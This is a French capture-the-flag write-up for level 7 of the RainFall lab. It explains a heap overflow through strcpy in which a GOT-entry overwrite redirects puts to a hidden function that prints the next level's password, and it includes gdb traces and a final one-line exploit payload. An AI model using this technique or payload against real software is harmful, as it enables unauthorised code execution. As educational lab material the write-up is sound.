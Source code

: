 # Level7

### **Déroulement du programme :** ###

###### main()
- 4 buffers sont alloués sur la heap (disons `buff_1`, `buff_2`, `buff_3` et `buff_4`)
    * l'adresse de `buff_2` est assigné à `buff_1[1]`
    * l'adresse de `buff_4` est assigné à `buff_3[1]`
- copie d'`argv[1]` à l'adresse contenu dans `buff_1[1]`
- copie d'`argv[2]` à l'adresse contenu dans `buff_3[1]`
- le fichier **"/home/user/level8/.pass"** est `fopen`
- le contenu de ce fichier est assigné à une variable globale, `c`
- **"~~"** est `puts` sur la sortie standard

###### m()
- imprime le contenu de `c` sur la sortie standard 

### **Réflexion :** ###

`m` n'étant jamais appelée dans le `main` il va falloir trouver un moyen de l'exécuter après que le contenu de **.pass** ait été copié dans `c`.

Les buffers ayant été alloués sur la **heap** il ne nous est pas possible de surcharger la sauvegarde de l'**EIP** présente dans la **stack frame** du `main`, on va donc employer un **heap overflow** grâce aux `strcpy`.


### **Tests :** ###

```
(gdb) b *0x080485a5
# juste après le premier strcpy
Breakpoint 1 at 0x80485a5
(gdb) b *0x080485c2
# juste après le second strcpy
Breakpoint 2 at 0x80485c2
(gdb) r $(python -c 'print("A"*100)') $(python -c 'print("B"*100)')
Starting program: /home/user/level7/level7 $(python -c 'print("A"*100)') $(python -c 'print("B"*100)')

Breakpoint 1, 0x080485a5 in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8b59 in ?? () from /lib/i386-linux-gnu/libc.so.6
```

On peut voir ici que le programme plante juste après le premier `strcpy`, on peut en déduire qu'on a écrasé l'adresse contenu dans `buff_3[1]`.

En cherchant un peu on se rend compte que le programme **segfault** quand `argv[1]` excède une taille de 20.

Pour expliquer cela il faut savoir que :
* nos buffers sont placés de manière contigus sur la heap
* `buff_1[1]` contient l'adresse de `buff_2`
* `buff_3[1]` contient l'adresse de `buff_4`
* nos buffers prennent en réalité 16 octets chacun

```
level7@RainFall:~$ ltrace ./level7
__libc_start_main(0x8048521, 1, 0xbffff7b4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                = 0x0804a008
malloc(8)                                                                = 0x0804a018
malloc(8)                                                                = 0x0804a028
malloc(8)                                                                = 0x0804a038
```

Notre heap est donc ainsi :

```
[8 octets alloués][4 octets de métadonnées][ 4 octets pour l'adresse ] # buff_x

[.&b2......][m][&] # buff_1
                 [........][m][&] # buff_2
                                [.&b4......]|[m][&] # buff_3
                                                  [........][m][&] # buff_4
```

C'est pourquoi on se retrouve à réécrire l'adresse contenu dans `buff_3[1]` avec un offset de 20 .

Le seul endroit où l'on peut faire un appel à `m` après que le contenu du **.pass** ait été copié dans `c` est au moment où on va faire appel à `puts`.


### **Solution :** ###

Grâce au premier `strcpy` on va remplacer l'adresse contenu dans `buff_3[1]` par l'adresse qui contient l'adresse où `puts@plt` va jump.

```
(gdb) disas 'puts@plt'
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928 # celle là
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

Pour finir, on va remplacer le contenu de cette adresse par l'adresse de `m` grâce au second `strcpy`.

```
(gdb) x m
0x80484f4 <m>:	0x83e58955
```

`./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')`

